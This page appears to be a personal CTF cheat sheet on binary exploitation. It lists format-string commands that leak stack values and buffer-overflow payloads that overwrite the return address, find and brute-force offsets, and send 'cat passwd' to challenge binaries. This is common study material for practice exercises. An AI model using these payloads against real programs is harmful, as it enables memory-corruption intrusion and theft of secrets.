 ```yaml
---
title: Pwn
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: ""
  description: ""
  canonical: ""
  robots: ""
  noindex: false
---
```

## Format string

- Leaking address:

```sh
for i in $(seq 1 20); do ./ch5 %$i\$x;printf "\n";done
```

- Show the content : 
```sh
for i in $(seq 1 20); do ./ch5 %$i\$x |rax2 -s |tr -cd "[:print:]" |rev;printf "\n";done
```

## Buffer Overflow 

- Find the Offset :

```sh
pwn cyclic 150
pwn cyclic -l naafoaafp #bytes

gdb-peda$ pattern_create 200
gdb-peda$ pattern_offset A7AAMAAiA
```

`In 32 bits take the bytes that overflowed RIP ` 
`In 64 bits Grab the first P bytes of RSP`

- Overflow RIP ( 32bits ) :

```sh
(python3 -c "print('\x41' * $i + '\x56\x11\x40\x00\x00\x00\x00\x00')";echo "cat passwd" ; cat) | ./ch35 
```

- Overflow RIP ( 64bits ) :

```sh
(python3 -c "print('\x41' * $i + '\x41\x41\x41\x41')"; cat) | ./ch35 
```

- Brute Force Offset : 
```sh
for i in $(seq 250 300); do

(python3 -c "print('\x41' * $i + '\x56\x11\x40\x00\x00\x00\x00\x00')";echo "cat passwd" ; cat) | ./ch35; 

done
```


